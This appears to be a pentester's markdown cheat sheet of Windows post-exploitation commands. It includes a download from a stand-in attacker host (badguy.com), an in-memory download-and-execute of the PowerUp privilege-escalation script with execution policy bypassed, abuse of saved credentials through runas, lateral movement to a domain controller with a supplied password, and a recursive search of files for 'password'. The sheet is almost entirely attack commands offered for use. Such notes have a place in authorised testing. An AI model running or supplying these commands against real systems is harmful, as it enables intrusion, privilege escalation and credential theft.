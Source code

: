 # WINDOWS TTPS
## Older services; 
- delivery of shells when you have command execution using rgsvr32

## Download scripts
```
invoke-webrequest http://badguy.com -outfile somefile.ps1
```

## world-writeable directory
```
C:\windows\System32\spool\drivers\color
```

## Download powerup and execute; in-mem
```
powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks”
```

## search for writeable files -needs validation, this spits out files
```
dir /a-r-d /s /b
dir /a-r-d /s /b C:\
```

## check stored creds
```
runas /user:administrator /savecred "cmd.exe /k whoami"
```

## Lateral movement, if you've recovoered a password / user
```
$pass = ConvertTo-SecureString 'supersecurepassword' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('ECORP.local\morph3', $pass)
Invoke-Command -ComputerName DC -Credential $cred -ScriptBlock { whoami }
```


## get hotfix info
wmic qfe get Caption,Description,HotFixID,InstalledOn

## users and groups
net users
net localgroups
net user someusername

## network data
ipconfig /all
route print
arp -A

## what tokens we got
whoami /priv

## recursve string scan
findstr /spin "password" *.*

